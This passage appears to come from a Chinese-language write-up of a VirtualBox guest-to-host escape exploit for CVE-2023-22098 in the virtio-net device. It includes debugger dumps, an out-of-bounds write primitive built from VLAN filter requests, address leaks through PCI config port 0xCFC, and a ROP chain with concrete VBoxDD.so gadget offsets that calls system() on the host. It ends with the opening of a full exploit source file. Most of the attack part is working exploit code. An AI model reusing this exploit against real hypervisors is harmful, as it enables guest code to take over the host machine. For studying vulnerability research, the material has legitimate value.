        VIRTIO_DEV_CONFIG_ACCESS_INDEXED( GCPhysVirtqDesc,   uVirtq,  VIRTIO_PCI_COMMON_CFG_T, uOffsetOfAccess, pVirtio->aVirtqueues);
    else
    if (VIRTIO_DEV_CONFIG_MATCH_MEMBER(   GCPhysVirtqAvail,           VIRTIO_PCI_COMMON_CFG_T, uOffsetOfAccess))
        VIRTIO_DEV_CONFIG_ACCESS_INDEXED( GCPhysVirtqAvail,  uVirtq,  VIRTIO_PCI_COMMON_CFG_T, uOffsetOfAccess, pVirtio->aVirtqueues);
    else
    if (VIRTIO_DEV_CONFIG_MATCH_MEMBER(   GCPhysVirtqUsed,            VIRTIO_PCI_COMMON_CFG_T, uOffsetOfAccess))
        VIRTIO_DEV_CONFIG_ACCESS_INDEXED( GCPhysVirtqUsed,   uVirtq,  VIRTIO_PCI_COMMON_CFG_T, uOffsetOfAccess, pVirtio->aVirtqueues);
    else
    if (VIRTIO_DEV_CONFIG_MATCH_MEMBER(   uQueueSize,                 VIRTIO_PCI_COMMON_CFG_T, uOffsetOfAccess))
        VIRTIO_DEV_CONFIG_ACCESS_INDEXED( uQueueSize,        uVirtq,  VIRTIO_PCI_COMMON_CFG_T, uOffsetOfAccess, pVirtio->aVirtqueues);
    else
    if (VIRTIO_DEV_CONFIG_MATCH_MEMBER(   uEnable,                    VIRTIO_PCI_COMMON_CFG_T, uOffsetOfAccess))
        VIRTIO_DEV_CONFIG_ACCESS_INDEXED( uEnable,           uVirtq,  VIRTIO_PCI_COMMON_CFG_T, uOffsetOfAccess, pVirtio->aVirtqueues);
    else
    if (VIRTIO_DEV_CONFIG_MATCH_MEMBER(   uNotifyOffset,              VIRTIO_PCI_COMMON_CFG_T, uOffsetOfAccess))
        VIRTIO_DEV_CONFIG_ACCESS_INDEXED( uNotifyOffset,     uVirtq,  VIRTIO_PCI_COMMON_CFG_T, uOffsetOfAccess, pVirtio->aVirtqueues);
    else
    if (VIRTIO_DEV_CONFIG_MATCH_MEMBER(   uMsixVector,                VIRTIO_PCI_COMMON_CFG_T, uOffsetOfAccess))
        VIRTIO_DEV_CONFIG_ACCESS_INDEXED( uMsixVector,       uVirtq,  VIRTIO_PCI_COMMON_CFG_T, uOffsetOfAccess, pVirtio->aVirtqueues);
    else
    ...
}

#define VIRTIO_DEV_CONFIG_MATCH_MEMBER(member, tCfgStruct, uOffsetOfAccess) \
            virtioCoreMatchMember(uOffsetOfAccess, cb, \
                                  RT_UOFFSETOF(tCfgStruct, member),  \
                                  RT_SIZEOFMEMB(tCfgStruct, member), false /* fSubfieldMatch */)
                                    
DECLINLINE(bool) virtioCoreMatchMember(uint32_t uOffset, uint32_t cb, uint32_t uMemberOff,
                                       size_t uMemberSize, bool fSubFieldMatch)
{
    /* Test for 8-byte field (always accessed as two 32-bit components) */
    if (uMemberSize == 8)
        return (cb == sizeof(uint32_t)) && (uOffset == uMemberOff || uOffset == (uMemberOff + sizeof(uint32_t)));

    if (fSubFieldMatch)
        return (uOffset >= uMemberOff) && (cb <= uMemberSize - (uOffset - uMemberOff));

    /* Test for exact match */
    return (uOffset == uMemberOff) && (cb == uMemberSize);
}

/**
 * Copy reads or copy writes specified member field of config struct (based on fWrite),
 * the memory described by cb and pv.
 *
 * cb, pv and fWrite are implicit parameters and must be defined by invoker.
 */
#define VIRTIO_DEV_CONFIG_ACCESS(member, tCfgStruct, uOffsetOfAccess, pCfgStruct) \
    do \
    { \
        uint32_t uOffsetInMember = uOffsetOfAccess - RT_UOFFSETOF(tCfgStruct, member); \
        if (fWrite) \
            memcpy(((char *)&(pCfgStruct)->member) + uOffsetInMember, pv, cb); \
        else \
            memcpy(pv, ((const char *)&(pCfgStruct)->member) + uOffsetInMember, cb); \
        VIRTIO_DEV_CONFIG_LOG_ACCESS(member, tCfgStruct, uOffsetOfAccess); \
    } while(0)

/**
 * Copies into or out of specified member field of config struct (based on fWrite),
 * the memory described by cb and pv.
 *
 * cb, pv and fWrite are implicit parameters and must be defined by invoker.
 */
#define VIRTIO_DEV_CONFIG_ACCESS_INDEXED(member, uIdx, tCfgStruct, uOffsetOfAccess, pCfgStruct) \
    do \
    { \
        uint32_t uOffsetInMember = uOffsetOfAccess - RT_UOFFSETOF(tCfgStruct, member); \
        if (fWrite) \
            memcpy(((char *)&(pCfgStruct[uIdx].member)) + uOffsetInMember, pv, cb); \
        else \
            memcpy(pv, ((const char *)&(pCfgStruct[uIdx].member)) + uOffsetInMember, cb); \
        VIRTIO_DEV_CONFIG_LOG_INDEXED_ACCESS(member, tCfgStruct, uOffsetOfAccess, uIdx); \
    } while(0)
```

`pVirtio`和`pVirtioCC`分别为`pDevIns->pvInstanceDataR3`和`&pDevIns->achInstanceData`，再往前回溯到`pci_data_read`函数可知`pDevIns`取自`pPciDev->Int.s.pDevInsR3`，刚好在我们的可写范围内：

```c
// static VBOXSTRICTRC pci_data_read(PDEVPCIROOT pGlobals, uint32_t addr, int cb, uint32_t *pu32Value)
rcStrict = pPciDev->Int.s.pfnConfigRead(pPciDev->Int.s.CTX_SUFF(pDevIns), pPciDev, config_addr, cb, pu32Value);
```

所以我们可以将`pDevInsR3`的指针进行上移或下移，使`pVirtio`的位置变成其他结构体指针，从而调用`VIRTIO_DEV_CONFIG_ACCESS`，或使用越界写`pVirtio->uVirtqSelect`后调用`VIRTIO_DEV_CONFIG_ACCESS_INDEXED`，泄露一些地址：

```c {hide=true}
/**
 * The core/common state of the VirtIO PCI devices, shared edition.
 */
typedef struct VIRTIOCORE
{
    char                        szInstance[16];                   /**< Instance name, e.g. "VIRTIOSCSI0"         */
    PPDMDEVINS                  pDevInsR0;                        /**< Client device instance                    */
    PPDMDEVINS                  pDevInsR3;                        /**< Client device instance                    */
    VIRTQUEUE                   aVirtqueues[VIRTQ_MAX_COUNT];     /**< (MMIO) VirtIO contexts for queues         */
    uint64_t                    uDeviceFeatures;                  /**< (MMIO) Host features offered         HOST */
    uint64_t                    uDriverFeatures;                  /**< (MMIO) Host features accepted       GUEST */
    uint32_t                    fDriverFeaturesWritten;           /**< (MMIO) Host features complete tracking    */
    uint32_t                    uDeviceFeaturesSelect;            /**< (MMIO) hi/lo select uDeviceFeatures GUEST */
    uint32_t                    uDriverFeaturesSelect;            /**< (MMIO) hi/lo select uDriverFeatures GUEST */
    uint32_t                    uMsixConfig;                      /**< (MMIO) MSI-X vector                 GUEST */
    uint8_t                     fDeviceStatus;                    /**< (MMIO) Device Status                GUEST */
    uint8_t                     fPrevDeviceStatus;                /**< (MMIO) Prev Device Status           GUEST */
    uint8_t                     uConfigGeneration;                /**< (MMIO) Device config sequencer       HOST */
    uint16_t                    uQueueNotify;                     /**< Caches queue idx in legacy mode     GUEST */
    bool                        fGenUpdatePending;                /**< If set, update cfg gen after driver reads */
    uint8_t                     uPciCfgDataOff;                   /**< Offset to PCI configuration data area     */
    uint8_t                     uISR;                             /**< Interrupt Status Register.                */
    uint8_t                     fMsiSupport;                      /**< Flag set if using MSI instead of ISR      */
    uint16_t                    uVirtqSelect;                     /**< (MMIO) queue selector               GUEST */
    uint32_t                    fLegacyDriver;                    /**< Set if guest drv < VirtIO 1.0 and allowed */
    uint32_t                    fOfferLegacy;                     /**< Set at init call from dev-specific code   */
    ...
} VIRTIOCORE;
```

我们用相对于可写内存的地址偏移方便计算。调试可知，我们可写的范围在0x10a4+0x400 ~ 0x10a4+0x1fff=0x30a3，`pDevInsR3`指针所在偏移为0x2300：

```gdb {hide=true}
pwndbg> p /x &pThis->aVlanFilter
$41 = 0x7ff3740010a4
pwndbg> x /gx &((PDMPCIDEVINT *)(0x7ff374002318-0x18))->pDevInsR3
0x7ff374002300:	0x00007ff374000000
```

`pDevInsR3`结构体中有`pDevInsR3->pCritSectRoR3`这个指针偏移为0x21c0，在我们的可写范围内，我们的目的是要伪造`pDevInsR3->pVirtio`，**所以我们将`pDevInsR3 += 0x10`，把`pDevInsR3->pCritSectRoR3`这个可写的指针错位放到`pDevInsR3->pVirtio`的位置**：

```gdb {hide=true}
pwndbg> p /x &pThis->aVlanFilter
$1 = 0x7ff3740010a4
pwndbg> p *((PDMPCIDEVINT *)(0x7ff374002318-0x18))->pDevInsR3
$2 = {
  u32Version = 4286709824,
  iInstance = 1,
  cbRing3 = 53248,
  fR0Enabled = true,
  fRCEnabled = false,
  afReserved = {false, false},
  pHlpR3 = 0x7ff3a37f2b20 <g_pdmR3DevHlpTrusted>,
  pvInstanceDataR3 = 0x7ff374000440, # <----- pVirtio
  pvInstanceDataForR3 = 0x7ff374000180,
  pCritSectRoR3 = 0x7ff3740021c0, # <----- 该指针在可写范围内，将其作为fake pVirtio
  pReg = 0x7ff375a3d400 <g_DeviceVirtioNet>,
  pCfg = 0x7ff38000e0c0,
  IBase = {
    pfnQueryInterface = 0x0
  },
  fTracing = 0,
  idTracing = 16,
  pDevInsForRCR3 = 0x7ff374000400,
  pDevInsForRC = 0,
  pvInstanceDataForRCR3 = 0x0,
  cbPciDev = 41408,
  cPciDevs = 1,
  apPciDevs = {0x7ff3740022c0, 0x0, 0x0, 0x0, 0x0, 0x0, 0x0, 0x0},
  pDevInsR0RemoveMe = 18446674535041388544,
  pvInstanceDataR0 = 18446674535041393728,
  pvInstanceDataRC = 0,
  au32Padding = {0 <repeats 11 times>},
  Internal = {
    s = {
      pNextR3 = 0x7ff3c4000000,
      pPerDeviceNextR3 = 0x0,
      pDevR3 = 0x7ff3801dd090,
      pLunsR3 = 0x7ff38045c230,
      pfnAsyncNotify = 0x0,
      pCfgHandle = 0x7ff38000ddf0,
      pVMR3 = 0x7ff3a06d6000,
      hDbgfTraceEvtSrc = 18446744073709551615,
      paDbgfTraceTrack = 0x0,
      idxDbgfTraceTrackNext = 0,
      cDbgfTraceTrackMax = 0,
      fIntFlags = 40,
      uLastIrqTag = 1049098,
      idxR0Device = 13
    },
    padding = "\000\000\000\304\363\177\000\000\000\000\000\000\000\000\000\000\220\320\035\200\363\177\000\000\060\302E\200\363\177\000\000\000\000\000\000\000\000\000\000\360\335\000\200\363\177\000\000\000`m\240\363\177\000\000\377\377\377\377\377\377\377\377", '\000' <repeats 16 times>, "(\000\000\000\n\002\020\000\r", '\000' <repeats 54 times>
  },
  achInstanceData = "\337=au\363\177\000"
}
```

`pDevInsR3->pCritSectRoR3+0x158`的位置有`virtioR3PciConfigRead`函数指针，可以用来泄露`VBoxDD.so`的地址：

```gdb {hide=true}
pwndbg> tele 0x7ff72404a1c0
00:0000│  0x7ff72404a1c0 ◂— 0xffffffff19790326
01:0008│  0x7ff72404a1c8 ◂— 0xffffffffffffffff
...
2b:0158│  0x7ff72404a318 —▸ 0x7ff725c29df7 (virtioR3PciConfigRead(PDMDEVINSR3*, PDMPCIDEV*, unsigned int, unsigned int, unsigned int*)) ◂— endbr64 
2c:0160│  0x7ff72404a320 —▸ 0x7ff725c2a0c8 (virtioR3PciConfigWrite(PDMDEVINSR3*, PDMPCIDEV*, unsigned int, unsigned int, unsigned int)) ◂— endbr64 
2d:0168│  0x7ff72404a328 ◂— 0
...
pwndbg> vmmap 0x7ff725c29df7
LEGEND: STACK | HEAP | CODE | DATA | WX | RODATA
             Start                End Perm     Size Offset File
    0x7ff7258b9000     0x7ff7258f0000 r--p    37000      0 /home/ctf/Desktop/VirtualBox-7.0.10/out/linux.amd64/debug/bin/VBoxDD.so
►   0x7ff7258f0000     0x7ff725e83000 r-xp   593000  37000 /home/ctf/Desktop/VirtualBox-7.0.10/out/linux.amd64/debug/bin/VBoxDD.so +0x339df7
    0x7ff725e83000     0x7ff726050000 r--p   1cd000 5ca000 /home/ctf/Desktop/VirtualBox-7.0.10/out/linux.amd64/debug/bin/VBoxDD.so
```

`pVirtio->aVirtqueues[]`在结构体中的偏移为0x20，数组元素大小为0x48：

```gdb {hide=true}
pwndbg> p /x &((PVIRTIOCORE)0)->aVirtqueues
$1 = 0x20
pwndbg> p /x sizeof(((PVIRTIOCORE)0)->aVirtqueues[0])
$2 = 0x48
pwndbg> p /x (0x158-0x20)/0x48
$3 = 0x4
pwndbg> p /x (0x158-0x20)%0x48
$4 = 0x18
pwndbg> ptype pVirtio->aVirtqueues
type = struct VIRTQUEUE {
    RTGCPHYS GCPhysVirtqDesc;
    RTGCPHYS GCPhysVirtqAvail;
    RTGCPHYS GCPhysVirtqUsed;
    uint16_t uMsixVector;
    uint16_t uEnable;
    uint16_t uNotifyOffset;
    uint16_t uQueueSize;
    uint16_t uAvailIdxShadow;
    uint16_t uUsedIdxShadow;
    uint16_t uVirtq;
    char szName[32];
    bool fUsedRingEvent;
    bool fAttached;
} [24]
pwndbg> p /x (char *)&pVirtio->aVirtqueues[0].uMsixVector - (char *)&pVirtio->aVirtqueues[0].GCPhysVirtqDesc
$5 = 0x18
```

所以当`uVirtqSelect = 4`时，读取`uMsixVector`、`uEnable`、`uNotifyOffset`三个变量值，即可泄露出`VBoxDD.so`的地址。

接下来就是如何触发的问题了，**看前面的栈回溯信息可知，泄露的这条路径是通过调用`IOMIOPortRead`从`0x0cfc`端口pmio读4字节触发的，而不是通过mmio读触发的**。`0x0cfc`端口很熟啊，这不就是CONFIG_DATA端口吗，所以这里是通过传统方式读写PCI设备BAR配置信息：

* 通过CONFIG_ADDRESS（0xCF8 端口）设置目标设备地址（`outb, outw, outl`）
* 通过CONFIG_DATA（0xCFC 端口）读值（`inb，inw，inl`）

我们可以找到VirtualBox源码中相关的代码：

```c {hide=true}
static DECLCALLBACK(int)   pciR3Construct(PPDMDEVINS pDevIns, int iInstance, PCFGMNODE pCfg)
{
    ...
    /*
     * Register I/O ports and save state.
     */
    static const IOMIOPORTDESC s_aAddrDesc[] = { { "PCI address", "PCI address", NULL, NULL }, { NULL, NULL, NULL, NULL } };
    rc = PDMDevHlpIoPortCreateAndMap(pDevIns, 0x0cf8, 1, pciIOPortAddressWrite, pciIOPortAddressRead, "i440FX (PCI)", s_aAddrDesc,
                                     &pGlobals->hIoPortAddress);
    AssertLogRelRCReturn(rc, rc);

    static const IOMIOPORTDESC s_aDataDesc[] = { { "PCI data", "PCI data", NULL, NULL }, { NULL, NULL, NULL, NULL } };
    rc = PDMDevHlpIoPortCreateAndMap(pDevIns, 0x0cfc, 4, pciIOPortDataWrite, pciIOPortDataRead, "i440FX (PCI)", s_aDataDesc,
                                     &pGlobals->hIoPortData);
    AssertLogRelRCReturn(rc, rc);
    ...
}

// 通过CONFIG_ADDRESS（0xCF8 端口）设置pThis->uConfigReg
static DECLCALLBACK(VBOXSTRICTRC)
pciIOPortAddressWrite(PPDMDEVINS pDevIns, void *pvUser, RTIOPORT offPort, uint32_t u32, unsigned cb)
{
    LogFunc(("offPort=%#x u32=%#x cb=%d\n", offPort, u32, cb));
    Assert(offPort == 0); RT_NOREF2(offPort, pvUser);
    if (cb == 4)
    {
        PDEVPCIROOT pThis = PDMINS_2_DATA(pDevIns, PDEVPCIROOT);
        PCI_LOCK_RET(pDevIns, VINF_IOM_R3_IOPORT_WRITE);
        pThis->uConfigReg = u32 & ~3; /* Bits 0-1 are reserved and we silently clear them */
        PCI_UNLOCK(pDevIns);
    }
    /* else: 440FX does "pass through to the bus" for other writes, what ever that means.
     * Linux probes for cmd640 using byte writes/reads during ide init. We'll just ignore it. */
    return VINF_SUCCESS;
}

// 通过CONFIG_DATA（0xCFC 端口）读值
static DECLCALLBACK(VBOXSTRICTRC)
pciIOPortDataRead(PPDMDEVINS pDevIns, void *pvUser, RTIOPORT offPort, uint32_t *pu32, unsigned cb)
{
    Assert(offPort < 4); NOREF(pvUser);
    if (!(offPort % cb))
    {
        PCI_LOCK_RET(pDevIns, VINF_IOM_R3_IOPORT_READ);
        VBOXSTRICTRC rcStrict = pci_data_read(PDMINS_2_DATA(pDevIns, PDEVPCIROOT), offPort, cb, pu32); // --->
        PCI_UNLOCK(pDevIns);
        LogFunc(("offPort=%#x cb=%#x -> %#x (%Rrc)\n", offPort, cb, *pu32, VBOXSTRICTRC_VAL(rcStrict)));
        return rcStrict;
    }
    AssertMsgFailed(("Read from port %#x cb=%d\n", offPort, cb));
    return VERR_IOM_IOPORT_UNUSED;
}

static VBOXSTRICTRC pci_data_read(PDEVPCIROOT pGlobals, uint32_t addr, int cb, uint32_t *pu32Value)
{
    *pu32Value = UINT32_MAX;

    if (!(pGlobals->uConfigReg & (1 << 31)))
        return VINF_SUCCESS;
    if ((pGlobals->uConfigReg & 0x3) != 0)
        return VINF_SUCCESS;
    uint8_t const  iBus        = (pGlobals->uConfigReg >> 16) & 0xff;
    uint8_t const  iDevice     = (pGlobals->uConfigReg >>  8) & 0xff;
#ifdef IN_RING3
    uint32_t const config_addr = (pGlobals->uConfigReg & 0xfc) | (addr & 3); // config_addr == 0xfc
#endif
    RT_UNTRUSTED_VALIDATED_FENCE();

    VBOXSTRICTRC rcStrict = VINF_SUCCESS;
    if (iBus != 0) // iBus == 0
    {
      ...
    }
    else
    {
        R3PTRTYPE(PDMPCIDEV *) pPciDev = pGlobals->PciBus.apDevices[iDevice]; // iDevice == 0x40
        if (pPciDev)
        {
#ifdef IN_RING3
            rcStrict = VINF_PDM_PCI_DO_DEFAULT;
            if (pPciDev->Int.s.pfnConfigRead)
                rcStrict = pPciDev->Int.s.pfnConfigRead(pPciDev->Int.s.CTX_SUFF(pDevIns), pPciDev, config_addr, cb, pu32Value); // --->
            ...
}
```

调试了一下发现通过`outl(0xcf8, x)`写值好像无用，无法控制`pGlobals->uConfigReg`的值，但是可以通过`0xcfc`读值。

经过一步步调试，我们需要构造的条件如下：

* `virtioR3PciConfigRead`:

  * `pVirtio->uPciCfgDataOff = 0xfc`（调试得到的值）
  * `pPciCap->uLength = 2`

* `virtioMmioRead`:

  * `pVirtio->LocCommonCfgCapcbMmio = 0xff`

    ```c
    // MATCHES_VIRTIO_CAP_STRUCT(off, cb, uOffset, pVirtio->LocCommonCfgCap)
    uOffset = off - pVirtio->LocCommonCfgCap.offMmio = off
    1. uOffset < pVirtio->LocCommonCfgCap.cbMmio          => off < cbMmio
    2. cb + uOffset <= pVirtio->LocCommonCfgCap.cbMmio    => off+2 < cbMmio
    /*
    pwndbg> p /x pVirtio->LocCommonCfgCap
    $14 = {
      offMmio = 0x0,
      cbMmio = 0x0,
      offPci = 0x0,
      cbPci = 0x0
    }
    */
    ```

* `virtioCommonCfgAccessed`:

  * `pVirtio->uVirtqSelect = (tgt_off-0x20)//0x48 = 4`

  * `pPciCap->uOffset = 0x1e\0x1d\0x1c`

    ```c
    // VIRTIO_DEV_CONFIG_MATCH_MEMBER(member, tCfgStruct, uOffsetOfAccess)
    uMemberOff  = ((type *)(void *)0)->member
    uMemberSize = sizeof(((type *)(void *)0)->member)
    1. uOffsetOfAccess == uMemberOff
    2. uMemberSize == cb
    ```

构造内容如下：

```c
#define OFF_ABWRITE_BASE 0x10a4
void write8(uint16_t addr, uint8_t data) {
    uint16_t off = addr - OFF_ABWRITE_BASE;

    // init vq
    for (size_t i = 0; i < 8; i++) {
        if (isBitSet(data, i))
            vrtio_net_ctrl_vlan_req(VIRTIO_NET_CTRL_VLAN_ADD, (off*8)+i);
        else
            vrtio_net_ctrl_vlan_req(VIRTIO_NET_CTRL_VLAN_DEL, (off*8)+i);
    }
    //printf("[+] write8(%#x, %#x);\n", addr, data);
}
void write16(uint16_t addr, uint16_t data) {
    write8(addr, data&0xff);
    write8(addr+1, data>>8);
}
void write32(uint16_t addr, uint32_t data) {
    write16(addr, data&0xffff);
    write16(addr+2, data>>16);
}
void write64(uint16_t addr, uint64_t data) {
    write32(addr, data&0xffffffff);
    write32(addr+4, data>>32);
}

uint16_t leak16(uint16_t vq_idx, uint8_t off) {
    uint16_t    off_pDevInsR3 = 0x2300,
                off_pVirtio = 0x21c0,
                off_uPciCfgDataOff = 0x28c7,
                off_uLength = 0x24cc,
                off_uOffset = 0x24c8,
                off_cbMmio = 0x28e6,
                off_uVirtqSelect = 0x28ca;

    write8(off_uPciCfgDataOff, 0xfc); // uAddress == pVirtio->uPciCfgDataOff = 0xfc
    write8(off_uLength, 2); // pPciCap->uLength = 2
    write8(off_uOffset, off); // pPciCap->uOffset = 0x1e
    write8(off_cbMmio, 0xff); // pVirtio->LocCommonCfgCap.cbMmio = 0xff
    write16(off_uVirtqSelect, vq_idx); // pVirtio->uVirtqSelect = vq_idx
    vrtio_net_ctrl_vlan_req(VIRTIO_NET_CTRL_VLAN_ADD, ((off_pDevInsR3-OFF_ABWRITE_BASE)*8)+4); // pDevInsR3 += 0x10
    return inw(0xCFC);
}
```

泄露出VBoxDD.so和可写内存的基址：

```c
    uint64_t    vboxdd_base = 0,
                writable_base = 0;

    // leak VBoxDD.so
    vboxdd_base |= leak16(4, &((struct virtio_pci_common_cfg *)0)->queue_notify_off); // uNotifyOffset
    vboxdd_base <<=16;
    vboxdd_base |= leak16(4, &((struct virtio_pci_common_cfg *)0)->queue_enable); // uEnable
    vboxdd_base <<=16;
    vboxdd_base |= leak16(4, &((struct virtio_pci_common_cfg *)0)->queue_msix_vector); // uMsixVector
    vboxdd_base -= 0x370df7; // virtioR3PciConfigRead
    printf("[+] leak vboxdd_base = %#lx\n", vboxdd_base);

    writable_base |= leak16(0, &((struct virtio_pci_common_cfg *)0)->queue_notify_off);
    writable_base <<=16;
    writable_base |= leak16(0, &((struct virtio_pci_common_cfg *)0)->queue_enable);
    writable_base <<=16;
    writable_base |= leak16(0, &((struct virtio_pci_common_cfg *)0)->queue_msix_vector);
    printf("[+] leak writable_base = %#lx\n", writable_base);
```


## ROP

一开始其实是想想办法泄露libc得到system和“/bin/sh”地址，分别替换`pPciDev->Int.s.pfnConfigRead`和`pPciDev->Int.s.CTX_SUFF(pDevIns)`来get shell，但是可写范围内一个libc地址都没有，伪造`pVirtio`指向VBoxDD.so的got表的话，由于got表不在可写范围内，很多`pVirtio`指针取值的限制条件没法满足，遂考虑转成ROP。

还是关注`pci_data_read`调`virtioR3PciConfigRead`这里：

```c
// static VBOXSTRICTRC pci_data_read(PDEVPCIROOT pGlobals, uint32_t addr, int cb, uint32_t *pu32Value)
rcStrict = pPciDev->Int.s.pfnConfigRead(pPciDev->Int.s.CTX_SUFF(pDevIns), pPciDev, config_addr, cb, pu32Value);
```

`pPciDev->Int.s.pfnConfigRead`和`pPciDev->Int.s.CTX_SUFF(pDevIns)`都在我们的可写范围内，此时可以控制`$rdi/$rsi/$rax`的指针指向可控地址，所以应该找一个能够将栈转移到可控地址的gadget。


最终ROP如下：

```c
    uint64_t push_rax_pop_rsp_pop_rbp = vboxdd_base + 0x00000000004d1a2f, // push rax ; pop rsp ; nop ; pop rbp ; ret
             gadget1 = vboxdd_base + 0x00000000001c9076, // mov rax, qword ptr [rbp - 0x18] ; pop rbp ; ret
             gadget2 = vboxdd_base + 0x0000000000108b2c, // sub rdx, rax ; mov rax, rdx ; pop rbp ; ret
             gadget3 = vboxdd_base + 0x0000000000330d28, // push rax ; pop rdx ; mov eax, 0 ; leave ; ret
             gadget4 = vboxdd_base + 0x00000000000656a0, // add rax, rdx ; pop rbp ; ret
             call_rax = vboxdd_base + 0x0000000000037014, // call rax
             prdi = vboxdd_base + 0x0000000000204810,
             prdx = vboxdd_base + 0x0000000000038942,
             prax = vboxdd_base + 0x0000000000402adf;
    uint64_t ftell_got = vboxdd_base + 0x7B4018;
    uint16_t off_pDevInsR3 = 0x2300,
             off_pfnConfigRead = 0x2318,
             off_ROP = 0x1500,
             off_cmd = 0x1700;
    char *cmd = "/usr/bin/xcalc";

    uint64_t ROP[] = {
        ftell_got + 0x18, // rbp
        gadget1, // mov rax, qword ptr [rbp - 0x18] ; pop rbp ; ret
        writable_base + off_ROP + 8*4, // rbp
        gadget3, // push rax ; pop rdx ; mov eax, 0 ; leave ; ret
        0, // rbp
        prax, 0x830f0, // ftell - libc_base
        gadget2, // sub rdx, rax ; mov rax, rdx ; pop rbp ; ret
        0, // rbp
        prdx, 0x52290, // system - libc_base
        gadget4, // add rax, rdx ; pop rbp ; ret
        0, // rbp
        prdi, writable_base + off_cmd,
        call_rax // system
    };
    
    for (size_t i = 0; i < sizeof(ROP); i++) {
        write64(off_ROP+i*8, ROP[i]);
    }
    for (size_t i = 0; i < strlen(cmd); i++) {
        write8(off_cmd+i, cmd[i]);
    }
    write64(off_pDevInsR3, writable_base + off_ROP);
    write64(off_pfnConfigRead, push_rax_pop_rsp_pop_rbp);
    inw(0xCFC);
```


# Exp

## CVE-2023-22098.exp.c

```c
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>
#include <stdint.h>
#include <string.h>
#include <errno.h>
#include <signal.h>
#include <fcntl.h>
#include <ctype.h>
#include <termios.h>
#include <assert.h>

#include <sys/types.h>
#include <sys/mman.h>
#include <sys/io.h>

#include "virtio-net.h"

#define PFN_PRESENT     (1ull << 63)
#define PFN_PFN         ((1ull << 55) - 1)

uint32_t page_offset(uint32_t addr) {
    return addr & ((1 << PAGE_SHIFT) - 1);
}

uint64_t gva_to_gfn(void *addr) {
    int fd = open("/proc/self/pagemap", O_RDONLY);
    if (fd < 0) {
        perror("open");
        exit(1);
    }
    uint64_t pme, gfn;
    size_t offset;
    offset = ((uintptr_t)addr >> 9) & ~7;
    lseek(fd, offset, SEEK_SET);
    read(fd, &pme, 8);
    if (!(pme & PFN_PRESENT))
        return -1;
    gfn = pme & PFN_PFN;
    close(fd);
    return gfn;
}

uint64_t gva_to_gpa(void *addr) {
    uint64_t gfn = gva_to_gfn(addr);
    assert(gfn != -1);
    return (gfn << PAGE_SHIFT) | page_offset((uint64_t)addr);
}


#define VIRTIO_NET_GVA  0xcafe000
#define VIRTIO_NET_GPA  0xf0806000
#define VIRTIO_NET_SIZE 0x2000

volatile uint8_t *virtio_mmio = NULL,
                 *virtio_notify_mmio = NULL,
                 *virtio_notify_addr = NULL;
volatile uint8_t *data_mem = NULL;

volatile struct virtio_pci_common_cfg *common_cfg = NULL;
volatile struct virtio_pci_notify_cap *notify_cap = NULL;
volatile struct virtio_net_config     *net_cfg    = NULL;

#define VIRTIO_QUEUE_SIZE           0x10
/* VIRTIO_NET_F_MRG_RXBUF is not negotiated, buffers of at least 1526 bytes. */
#define VIRTIO_NET_RECVQ_BUF_SIZE   2048
#define recvq_buf(_i)               (recvq_mem + VIRTIO_NET_RECVQ_BUF_SIZE*_i)
volatile uint8_t *vq_mem = NULL,
                 *recvq_mem = NULL;
volatile struct virtqueues vqs;
size_t avail_idx = 0;

#define isBitSet(num, _i)   (num & (1 << _i))

#define mmio_write64(addr, val)     (*(uint64_t *)(addr)=val)
#define mmio_write32(addr, val)     (*(uint32_t *)(addr)=val)
#define mmio_write16(addr, val)     (*(uint16_t *)(addr)=val)
#define mmio_write8(addr, val)      (*(uint8_t *)(addr)=val)
#define mmio_read64(addr)           (*(uint64_t *)(addr))
#define mmio_read32(addr)           (*(uint32_t *)(addr))
#define mmio_read16(addr)           (*(uint16_t *)(addr))
#define mmio_read8(addr)            (*(uint8_t *)(addr))

void *mmio_init(void *fixed, size_t size, const char *file) {
    void *mem = NULL;

    int mmio_fd = open(file, O_RDWR | O_SYNC);
    if (mmio_fd == -1) {
        perror("[-] failed to open mmio.");
        exit(EXIT_FAILURE);
    }

    mem = mmap(fixed, size, PROT_READ|PROT_WRITE, MAP_SHARED, mmio_fd, 0);
    if (mem == MAP_FAILED) {
        perror("[-] failed to mmap mmio.");
        exit(EXIT_FAILURE);
    }
    if (mlock(mem, size) == -1) {
        perror("[-] failed to mlock mmio_mem.");
        exit(EXIT_FAILURE);
    }

    close(mmio_fd);
    return mem;
}

void print_cap(struct virtio_pci_cap* cap){
    puts("=====================================");
    switch(cap->cfg_type){
        case VIRTIO_PCI_CAP_COMMON_CFG:
            printf("cfg_type: common\n");
            break;
        case VIRTIO_PCI_CAP_NOTIFY_CFG:
            printf("cfg_type: notify\n");
            break;
        case VIRTIO_PCI_CAP_ISR_CFG:
            printf("cfg_type: isr\n");
            break;
        case VIRTIO_PCI_CAP_DEVICE_CFG:
            printf("cfg_type: device\n");
            break;
        case VIRTIO_PCI_CAP_PCI_CFG:
            printf("cfg_type: pci\n");
            break;
        default:
            printf("cfg_type: unknown %d\n", cap->cfg_type);
            break;
    }
    printf("cap_len: %x\tbar: %x\toffset: %x\tlength: %x\n",
            cap->cap_len, cap->bar, cap->offset, cap->length);
}

void print_net_ctf(struct virtio_net_config *cfg) {
    char *fmt = \
"struct virtio_net_config {\n\
    u8 mac[6];\n\
    le16 status = %#04x;\n\
    le16 max_virtqueue_pairs = %#04x;\n\
    le16 mtu = %#04x;\n\
};\n";
    printf(fmt, cfg->status, cfg->max_virtqueue_pairs, cfg->mtu);
}

static inline void vring_init(struct vring *vr, unsigned int num, unsigned char *queue, uint16_t idx) {
   vr->num = num;
   vr->desc = (struct vring_desc * volatile)queue;
   vr->avail = (struct vring_avail * volatile)&vr->desc[num];
   vr->used = (struct vring_used * volatile)&vr->avail[1];
   printf("[*] init vring %p: desc %p, avail %p, used %p\n",
            vr, vr->desc, vr->avail, vr->used);

   mmio_write16(&common_cfg->queue_select, idx);
   mmio_write16(&common_cfg->queue_size, num);
   mmio_write32(&common_cfg->queue_desc_lo, gva_to_gpa(vr->desc));
   mmio_write32(&common_cfg->queue_avail_lo, gva_to_gpa(vr->avail));
   mmio_write32(&common_cfg->queue_used_lo, gva_to_gpa(vr->used));
   mmio_write16(&common_cfg->queue_enable, 1);
}

void init_virtio() {
    // init dma
    data_mem = mmap(0, PAGE_SIZE, PROT_READ|PROT_WRITE, MAP_SHARED|MAP_ANON, -1, 0);
    memset((void *)data_mem, 0, PAGE_SIZE);
    printf("[*] data_mem: %p\n", data_mem);

    // init mmio
